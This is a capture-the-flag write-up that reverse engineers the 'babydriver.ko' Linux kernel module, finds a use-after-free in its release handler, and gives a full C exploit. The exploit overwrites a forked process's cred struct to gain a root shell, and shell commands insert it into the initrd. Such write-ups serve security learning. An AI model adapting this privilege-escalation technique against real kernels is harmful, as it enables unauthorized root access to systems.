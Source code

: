 # Another easy Linux kernel exploitation

## Abstract

In this blog post, I dive deep into the world of Linux kernel exploitation, with a focus on the `babydriver.ko` kernel module. I'll take you on a journey through the process of reverse engineering the driver, particularly honing in on the ioctl interface and pinpointing a use-after-free vulnerability. I'll guide you through the steps involved in developing an exploit, which includes memory allocation and manipulation to achieve unauthorized access. Additionally, I'll walk you through the process of inserting the exploit into the initrd filesystem, ultimately leading to the coveted prize of root access. This blog post offers an exploration of the intriguing landscape of kernel exploitation, by solving this easy rated ctf challenge!

## Content

- [Another easy Linux kernel exploitation](#another-easy-linux-kernel-exploitation)
  - [Abstract](#abstract)
  - [Content](#content)
  - [Introduction](#introduction)
  - [Driver reverse](#driver-reverse)
    - [babydriver\_init and babydriver\_exit](#babydriver_init-and-babydriver_exit)
    - [Ioctl reverse engineering](#ioctl-reverse-engineering)
  - [Developp the exploit](#developp-the-exploit)
  - [Insert the exploit](#insert-the-exploit)
  - [Conclusion](#conclusion)

## Introduction

This time around, I'm going to work with the `babydriver.ko` kernel module. The initial phase involves reverse engineering the driver and crafting an exploit based on its vulnerabilities.

## Driver reverse

The driver is packaged in an unstripped ELF file, so reverse engineering it shouldn't be too challenging since all the symbols and structure definitions are intact. I'll provide you with an overview of how the driver operates.

### babydriver_init and babydriver_exit

These functions serve as the kernel module's constructor and destructor. In the constructor, there is an allocation for an [ioctl](https://en.wikipedia.org/wiki/Ioctl), and in the destructor, this ioctl is deallocated.

### Ioctl reverse engineering

The driver is vulnerable through the ioctl interface, so our attention will be directed towards the functions associated with it. Their is 5 callbacks associated to the ioctl : open, relase, read, write, ioctl. We will analyze the ghidra decompiled functions.

- open : allocate a 0x40 sized buffer
```c
int babyopen(inode *inode,file *filp) {
  babydev_struct.device_buf = (char *)kmem_cache_alloc_trace(_DAT_001010a8,0x24000c0,0x40);
  babydev_struct.device_buf_len = 0x40;
  printk("device open\n");
  return 0;
}
```

- release : free the allocated buffer (without setting it to NULL...)
```c
int babyrelease(inode *inode,file *filp) {
  kfree(babydev_struct.device_buf);
  printk("device release\n");
  return 0;
}
```

- read : copy from buffer to user
```c
ssize_t babyread(file *filp,char *buffer,size_t length,loff_t *offset) {
  size_t sVar1;
  
  if (babydev_struct.device_buf != (char *)0x0) {
    sVar1 = 0xfffffffffffffffe;
    if (length < babydev_struct.device_buf_len) {
      _copy_to_user(buffer,babydev_struct.device_buf,length);
      sVar1 = length;
    }
    return sVar1;
  }
  return -1;
}
```

- write : copy from user to buffer
```c
ssize_t babywrite(file *filp,char *buffer,size_t length,loff_t *offset) {
  size_t sVar1;
  
  if (babydev_struct.device_buf != (char *)0x0) {
    sVar1 = 0xfffffffffffffffe;
    if (length < babydev_struct.device_buf_len) {
      _copy_from_user(babydev_struct.device_buf,buffer,length);
      sVar1 = length;
    }
    return sVar1;
  }
  return -1;
}
```

- ioctl : allocate a buffer with a user controled size
```c
long babyioctl(file *filp,uint command,ulong arg) {
  long lVar1;
  
  if (command == 0x10001) {
    kfree(babydev_struct.device_buf);
    babydev_struct.device_buf = (char *)__kmalloc(arg,0x24000c0);
    babydev_struct.device_buf_len = arg;
    printk("alloc done\n");
    lVar1 = 0;
  }
  else {
    printk(&DAT_0010031a,arg);
    lVar1 = -0x16;
  }
  return lVar1;
}
```

As you noticed in my comments, the identified bug is a [use-after-free](https://en.wikipedia.org/wiki/Dangling_pointer) issue. The other functions are properly checking the bounds. Now, let's outline our exploit plan.

## Developp the exploit

The initial idea I had is to allocate a structure of the same size as the `cred` struct, release it, and then populate it using a second instance of the ioctl. The following schema explain it better : 

![](images/exploit.svg)

And here is my exploit :

```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <unistd.h>

#define BABYDRIVER_DEVICE_NAME "/dev/babydev"
#define BABYDRIVER_ALLOC_COMMAND 0x10001
#define CRED_STRUCT_SIZE 168

char CredStruct[CRED_STRUCT_SIZE];

int main(void) {
    // Create two file descriptors for the device
    int baby1 = open(BABYDRIVER_DEVICE_NAME, O_RDWR);
    if(baby1 < 0) {
        return -1;
    }
    
    int baby2 = open(BABYDRIVER_DEVICE_NAME, O_RDWR);
    if(baby2 < 0) {
        close(baby1);
        return -1;
    }

    // Allocate a struct of the same size that cred struct
    ioctl(baby1, BABYDRIVER_ALLOC_COMMAND, CRED_STRUCT_SIZE);
    // Release baby1 to kfree the allocated struct
    close(baby1);

    // Fork to create a new process with a newly allocated cred struct using the previously kfree memory area
    pid_t pid = fork();

    if(pid < 0) {
        puts("Fork failed...");
    } else if(pid == 0) {
        for(int index=0; index<9*4; index++) {
            CredStruct[index] = 0;
        }        
        // Modify our creds
        write(baby2, CredStruct, 9*4);
        printf("Id is now %d\n", geteuid());
        system("/bin/sh");
    } else {
        while(1) {}
    }

    close(baby2);
    return 0;
}
```

## Insert the exploit

The final step is to insert the exploit into our initrd filesystem. To accomplish this, we can use the following commands:

```bash
mkdir initrd_data && cd initrd_data
cat ../rootfs.cpio | cpio -idmv
cp <path to exploit> .
find . | cpio --quiet -o -H newc > ../newrootfs.cpio
```

With everything in place, we can now utilize `newrootfs.cpio` to boot and execute our exploit, ultimately granting us root access.

## Conclusion

In this second challenge, I had the opportunity to exploit a Kernel Use-After-Free (kUAF) vulnerability. My exploit plan was straightforward, but I also came across some write-ups that utilized more advanced techniques, such as leveraging tty struct callbacks. I hope you found it interesting to read.